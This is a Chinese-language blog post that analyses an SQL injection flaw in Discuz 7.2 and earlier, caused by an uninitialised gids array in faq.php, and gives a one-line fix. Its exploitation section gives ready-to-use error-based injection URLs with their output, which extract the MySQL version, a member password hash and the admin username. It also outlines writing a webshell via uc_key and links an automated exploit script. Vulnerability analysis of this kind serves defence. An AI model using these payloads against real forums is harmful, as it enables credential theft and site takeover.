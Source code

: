 Title: Discuz7.2及以下版本通杀漏洞分析
Date: 2014-07-03 06:08
Tags: Discuz


2014年7月2日真是个好日子，Discuz7.2及以下版本爆出一个惊天大漏洞，黑客可以直接脱库，甚至可以直接可以写入webshell


#### **1、漏洞代码分析**

请看下面注释分析，其实问题很简单，没有初始化变量，导致用户可以覆盖变量，引起注入。但凡做过开发的同学应该都知道，这个其实是一个很容易犯错的地方。在开发c、c++的时候有pclint工具可以检查，只要使用前没有初始化就报警，这类问题得到了很好的抑制。但脚本语言似乎并没有很好的工具，光靠人的编程技能，还是很难控制以后不会犯同样的错误。Discuz范的这个错误肯定不是偶然的，类似问题其它的网站或轻或重的应该也会存在的。

<code>

} elseif($action == 'grouppermission') {

	require_once './include/forum.func.php';
	require_once language('misc');
	$permlang = $language;
	unset($language);

	$searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
    /* 此处没有对数组变量gids初始化 */
	$groups = $grouplist = array();
	$query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
	$cgdata = $nextgid = '';
	while($group = $db->fetch_array($query)) {
		$group['type'] = $group['type'] == 'special' && $group['radminid'] ? 'specialadmin' : $group['type'];
		$groups[$group['type']][] = array($group['groupid'], $group['grouptitle']);
		$grouplist[$group['type']] .= '<option value="'.$group['groupid'].'"'.($searchgroupid == $group['groupid'] ? ' selected="selected"' : '').'>'.$group['grouptitle'].($groupid == $group['groupid'] ? ' &larr;' : '').'</option>';
		if($group['groupid'] == $searchgroupid) {
			$cgdata = array($group['type'], count($groups[$group['type']]) - 1, $group['groupid']);
		}
    }

    /* 根据不同的情况对gids前4位变量进行赋值 */
	if($cgdata[0] == 'member') {
		$nextgid = $groups[$cgdata[0]][$cgdata[1] + 1][0];
		if($cgdata[1] > 0) {
			$gids[1] = $groups[$cgdata[0]][$cgdata[1] - 1];
		}
		$gids[2] = $groups[$cgdata[0]][$cgdata[1]];
		if($cgdata[1] < count($groups[$cgdata[0]]) - 1) {
			$gids[3] = $groups[$cgdata[0]][$cgdata[1] + 1];
			if(count($gids) == 2) {
				$gids[4] = $groups[$cgdata[0]][$cgdata[1] + 2];
			}
		} elseif(count($gids) == 2) {
			$gids[0] = $groups[$cgdata[0]][$cgdata[1] - 2];
		}
	} else {
		$gids[1] = $groups[$cgdata[0]][$cgdata[1]];
	}
	ksort($gids);
    $groupids = array();

    /* 将gids内容拷贝到数组变量groupids中 */
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

    /* 利用groupids中的内容查询数据，由于gids变量没有初始化，用户可以构造一个请求对gids变量进行覆盖，导致groupids可控，只要闭合下面的IN()，即可注入 */
	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");
	$groups = array();
	while($group = $db->fetch_array($query)) {
		$group['maxattachsize'] = $group['maxattachsize'] / 1024;

</code>


#### **2、利用方法**

1、url中传入gids变量，需要闭合in，并利用mysql的floor报错注入法即可实现，如下输入，可以爆出数据库版本

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(version(),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:01am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php

    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '5.1.28-rc-community1' for key 'group_key'
    Errno.: 1062
    

2、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的密码

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select password from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:06am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
        
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select password from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '0644bf56b4ed45878f306b5f19dc1e0e1' for key 'group_key'
    Errno.: 1062
    

3、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的用户名

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select username from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:07am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
    
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select username from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry 'admin1' for key 'group_key'
    Errno.: 1062


4、写入shell转思路

通过读取uc_key，可以将一句话写入配置文件 `config.inc.php`


5、利用上面的思路自己写了一个小软件，可以实现全自动利用

[工具源码下载链接](/static/code/diz7.2.py)

运行效果截图

![Alt text](/static/images/diz7.2.GIF)


#### **3、修复方法**

将如下代码

    $groups = $grouplist = array();

修改为

    $groups = $grouplist = $gids = array();

